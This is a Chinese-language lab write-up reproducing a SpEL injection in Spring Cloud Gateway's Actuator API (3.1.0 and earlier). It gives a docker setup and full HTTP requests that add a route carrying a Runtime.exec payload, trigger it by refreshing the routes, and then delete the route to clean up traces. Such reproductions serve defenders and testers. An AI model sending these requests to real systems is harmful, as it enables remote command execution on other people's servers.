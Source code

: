 # Spring Cloud Gateway Server 未授权访问漏洞

## 漏洞描述

Spring Cloud Gateway是Spring中的一个API网关。其3.1.0及3.0.6版本（包含）以前存在一处SpEL表达式注入漏洞，当攻击者可以访问Actuator API的情况下，将可以利用该漏洞执行任意命令。

## 环境搭建

执行如下命令启动一个使用了Spring Cloud Gateway 3.1.0的Web服务：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`即可看到演示页面，这个页面的上游就是example.com。

![image-20220519211640099](../../.gitbook/assets/image-20220519211640099.png)

## 漏洞复现

利用这个漏洞需要分多步。

首先，发送如下数据包即可添加一个包含恶意SpEL表达式的路由：

```
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: 192.168.0.5:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 329

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
```

![image-20220519211737396](../../.gitbook/assets/image-20220519211737396.png)

然后，发送如下数据包应用刚添加的路由。这个数据包将触发SpEL表达式的执行：

```
POST /actuator/gateway/refresh HTTP/1.1
Host: 192.168.0.5:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Upgrade-Insecure-Requests: 1

```

![image-20220519212128250](../../.gitbook/assets/image-20220519212128250.png)

发送如下数据包即可查看执行结果：

![image-20220519212220678](../../.gitbook/assets/image-20220519212220678.png)

最后，发送如下数据包清理现场，删除所添加的路由：

```
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: 192.168.0.5:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Upgrade-Insecure-Requests: 1
```

![image-20220519212306237](../../.gitbook/assets/image-20220519212306237.png)

再刷新下路由：

![image-20230129215916063](../../.gitbook/assets/image-20230129215916063.png)